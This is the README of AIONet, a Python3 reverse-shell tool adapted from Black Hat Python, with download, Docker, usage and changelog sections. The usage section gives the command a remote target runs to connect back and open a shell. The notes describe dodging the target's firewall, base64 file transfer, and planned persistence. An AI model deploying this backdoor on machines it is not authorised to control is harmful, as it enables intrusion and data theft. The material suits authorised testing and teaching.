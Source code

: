 # All-In-One Network Utility
AIONet was built as a multipurpose tool to replace netcat. Written in Python3, AIONet offers features like reverse shell spawning, file upload and file download.  
The idea for this tool was obtained from chapter 2 of Black Hat Python by Justin Seitz. This program aims to update BHP's tool to provide features like class-based structure, Python3 support and error checking. A detailed explanation of the differences between the two can be found at the end of this document.

## Dependencies
* Python3 (>=3.6)

## Download
### Option 1: Using `git clone`
```
git clone https://github.com/aarole/aionet.git
cd aionet/
```

### Option 2: Using `wget`
```
wget -O aionet.py https://raw.githubusercontent.com/aarole/aionet/master/aionet.py
```

### Option 3: Using Docker
An AIONet listener can be created by using an existing Docker image or by building your own.  

#### 3.1: Getting the image
##### 3.1.1: Using Docker Hub
```
docker pull aarole/aionet
```

##### 3.1.2: Building the image using the repository's Dockerfile
```
git clone https://github.com/aarole/aionet.git
cd aionet/
docker build -t aarole/aionet .
```

#### 3.2: Running the container
```
docker run --rm -it -v /path/to/some/directory:/opt -p PORT:PORT aarole/aionet -l -p PORT
```
* /path/to/some/directory
  * Directory (a) containing the files you may want to upload, or (b) to which you may want to download files
  * Directory path should be on your Docker host
* PORT
  * Port on which the listener will listen
  * Use the same port in all three locations

## Usage
```
On host:           python3 aionet.py -p PORT -l
On remote machine: python3 aionet.py -t TARGET -p PORT

Options:
-t target, --target target IP address of the remote listener
-p port, --port port       If used with -l, port where listener is to be created; else, port where remote listener exists
-l, --listen               Create a listener on the port defined using -p
-h, --help                 show this help message and exit
```

## Updates
* Program structure overhauled to allow for easy extension
  * Created individual classes for the server (listener/host) and the client (target/remote machine)
* Updated program to use reverse backdoors
  * Listener is created on the physical machine and remote target connects to it
  * Opening a port on the host ensures that firewalls on the remote target do not raise red flags
* Replaced getopt with argparse
* Moved file manipulation (download and upload) to post-shell operations
  * Used the base64 library to encode files during upload/download
  * Base64 encoding allows for easy transfer of files (especially non-text [pdf, png, jpg] files)
* Used the os library to allow for usage of cd and rm commands
* Added error-checking during file upload/download using SHA256 hashes (provided by hashlib)
  * Hash is sent from the source computer along with the message
  * The destination hashes the file locally
  * If the hashes match, the file is downloaded/uploaded; else, the file is deleted
* Added server-side logging
  * If the shell is dropped, all commands run and their respective output is stored in a timestamped log file

## TODO
* Add support for bind shells
* Add ability to establish persistence

## Known issues
* File download
  * ~~Non-text files (png, jpg, pdf) cause errors when downloading them~~
  * ~~Files are partially downloaded and a part of the base64 encoded file is printed~~
  * Fix: Switched from length-based recv to sentinel-based recv
* Exit condition
  * ~~exit command is not handled properly on the server~~
  * Fix: Moved handle() call in Server class to outside the while loop
* Downloading files with full path
  * ~~Supplying the absolute path to a file being downloaded could potentially cause conflict issues on the host~~
  * Fix: Added a line to replace "/" with "_" to allow the user to download files by providing an absolute path without encountering conflict issues and maintaining the full path string in the downloaded file for their reference
